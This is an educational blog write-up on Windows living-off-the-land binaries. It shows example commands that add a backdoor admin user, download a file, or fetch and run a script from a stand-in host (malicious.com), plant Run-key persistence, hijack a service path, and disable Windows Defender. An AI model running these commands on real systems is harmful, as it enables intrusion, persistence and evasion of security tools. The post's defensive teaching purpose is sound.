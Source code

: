 ```yaml
---
title: "Peeling Back Living Off The Land Binaries and Techniques"
date: 2024-03-26
layout: post
categories: write-ups
---
```



A Few Living-Off-The-Land Binaries and Techniques
=================================================


Living off the Land (LOTL) Binaries, Windows

---

### A Few Living-Off-The-Land Binaries and Techniques

#### Living off the Land (LOTL) Binaries, Windows

![](/assets/images/10btGIciM2lFvwZTYlH5t6w.png)

Courtesy of DALL-E, prompt provided by [Grant Wilsey](https://medium.com/u/36c9d68fafd8)

When it comes to avoiding detection and maintaining access to a newly hacked system, attackers can become very resourceful. They will often employ techniques that leverage existing system tools on the system to remain hidden, maintain persistence, escalation privileges and exfiltrate data from the target. One such strategy is known as “Living off the Land” (LOTL), where attackers utilize legitimate binaries already present on the target system to execute malicious activities, making it harder for traditional security solutions to detect their actions. I’m interested in learning more about Living-off-the-land techniques, so in this blog post we’ll explore the concept of LOTL binaries and showcase a few simple examples that exploit native Windows capabilities.

### Understanding LOTL Binaries

LOTL binaries refer to legitimate executables found on operating systems that attackers repurpose for malicious activities. These binaries are part of the operating system’s standard toolkit and are trusted by security mechanisms, making them ideal for stealthy attacks. By leveraging LOTL binaries, attackers can evade detection and blend in with normal system operations, making it challenging for security analysts to identify their malicious activities.

#### A Few Examples of Living-Off-The-Land Binaries

#### 1. cmd.exe

`cmd.exe`is the standard command-line interpreter on Windows systems. Attackers can abuse this binary for various malicious purposes, such as executing commands, downloading files, or launching other processes. I gather several examples of how cmd.exe can be misused, or rather used with normal functionality except with malicious intent:

**Example 1: Command Execution**

```
cmd.exe /c net user hacker P@ssw0rd123 /add
```

In this example, an attacker that already likely has administrator privileges creates a new user account named “darkyolks” with the password “P@ssw0rd123” using the `net user` command executed via `cmd.exe`. This is a simple way yet effective way that adversaries use native features within Windows environments to maintain persistence.

![](/assets/images/13eGihN7zYK51S0HjGHWq1g.png)

Successful user creation via cmd.exe

![](/assets/images/1FRUnF4LCq2GAZnM8l55Uwg.png)

Denied user creation due to invalid privileges.

Proper logging set up for **Windows Event ID 4720** — “A User was created” is one way to detect this type of persistence.

**Example 2: Downloading Files**

```
cmd.exe /c powershell.exe -c “Invoke-WebRequest -Uri http://malicious.com/malicious.exe -OutFile C:\Temp\malicious.exe”
```

Here, the attacker uses `cmd.exe` to invoke **PowerShell** and download a malicious executable from a remote server. `powershell.exe` and `certutil.exe` are LOTL binaries themselves. Malicious.com/malicious.exe is quite suspicious.

#### 2. certutil.exe

`certutil.exe` is a command-line utility for managing digital certificates in Windows. While primarily used for legitimate purposes, attackers can abuse **certutil.exe** for file decoding/encoding and data exfiltration.

**Example 1: Data Exfiltration**

```
certutil.exe -urlcache -split -f http://malicious.com/secret.txt C:\Temp\secret.txt
```

In this example, the attacker uses `certutil.exe` to download a file (secret.txt) from a remote server and save it to the local system.

**Example 2: Encoding and Decoding Files with certutil.exe**

Another trick is using `certutil.exe` for encoding and decoding files, which can obfuscate malicious payloads to evade detection. Here's how you can encode a file:

```
certutil -encode payload.exe encoded_payload.txt
```

To decode the encoded file:

```
certutil -decode encoded_payload.txt decoded_payload.exe
```
#### 3. powershell.exe

`powershell.exe`is a powerful scripting environment built into Windows systems. Attackers commonly abuse PowerShell for various malicious activities, including command execution, file manipulation, and lateral movement. This binary will work similar to `cmd.exe`, as shown in previous examples when PowerShell was called via the command line.

**Example: Command Execution**

```
powershell.exe -ExecutionPolicy Bypass -Command “& {Invoke-Expression (New-Object Net.WebClient).DownloadString(‘http://malicious.com/script.ps1')}"
```

Similar to the `cmd.exe` example, an attacker uses `powershell.exe` to bypass execution policies then download and execute a malicious PowerShell script (script.ps1) from a remote server.

#### 4. reg.exe

`reg.exe` is a built-in Windows utility designed to manipulate the system registry. The system registry a hierarchical database that stores configuration settings and options on Microsoft Windows operating systems. Attackers may abuse `reg.exe` to modify registry keys related to system configurations, user settings, or installed software. By altering these keys, they can achieve persistence, escalate privileges, or even disable security mechanisms.

**Example 1: Achieving Persistence**  
`reg.exe` provides attackers with a convenient way to establish persistence by adding entries to the Windows registry that execute their malicious payloads during system startup.  
Example:

```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousProgram /t REG_SZ /d “C:\Malware\malware.exe” /f
```

In this example, the attacker uses `reg.exe` to add a registry entry under the current user’s `Run` key. This entry specifies the path to the malicious executable (malware.exe), ensuring that it runs every time the user logs in.

**Example 2: Escalating Privileges**

Privilege escalation is another common goal for attackers, as it grants them higher levels of access to the system and potentially allows them to execute more impactful attacks. The binary `reg.exe` can be exploited to escalate privileges by manipulating registry keys associated with system services or user accounts.

```
  
reg add “HKLM\SYSTEM\CurrentControlSet\Services\SomeVulnerableService” /v ImagePath /t REG_EXPAND_SZ /d “C:\Malware\malware.exe” /f
```

In this scenario, the attacker modifies the ‘*ImagePath’* value of a vulnerable system service using `reg.exe`. By replacing the legitimate service executable with their malicious payload (malware.exe), they can execute arbitrary code with elevated privileges the next time the service starts.

**Example 3: Disabling Security Software**

Attackers often seek to disable or bypass security software installed on the compromised system to evade detection and maintain their foothold. The binary `reg.exe` provides attackers with the ability to modify registry keys related to security software settings or configurations.

```
reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender” /v DisableAntiSpyware /t REG_DWORD /d 1 /f  
  

```

This command adds a registry key `DisableAntiSpyware` under `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender` and sets its value to `1`, which effectively disables Windows Defender permanently.

![](/assets/images/14Gcm4MXLkloUHAptSBmtWA.png)

Disabling Windows Defender with reg.exe via command line.

This screenshot shows the command executing successfully. Note the user running the command needs to be running with administrator privileges in order to make changes to the registry. An attacker may have already escalated their privileges to modify the registry at this stage of their attack.

### Conclusion

Living off the land binaries pose a significant challenge for defenders due to their legitimate nature and widespread use. By understanding the differences of legitimate binaries and malicious ones, analysts are tasked with triaging the events and piecing together the actions taken post-compromise. This essential skills protects

By adopting a proactive approach to security and leveraging threat intelligence, organizations can stay one step ahead of cyber adversaries and mitigate the risks associated with living off the land attacks.

For further research and exploration of LOTL binaries, the [LOLBAS project](https://lolbas-project.github.io/) provides a comprehensive repository of common LOTL binaries and their respective use cases in offensive security scenarios.



By [Grant Wilsey](https://medium.com/@darkyolks) on [March 26, 2024](https://medium.com/p/0903eefd1c33).

[Canonical link](https://medium.com/@darkyolks/a-look-into-lotl-binaries-and-techniques-0903eefd1c33)

Exported from [Medium](https://medium.com) on December 27, 2024.

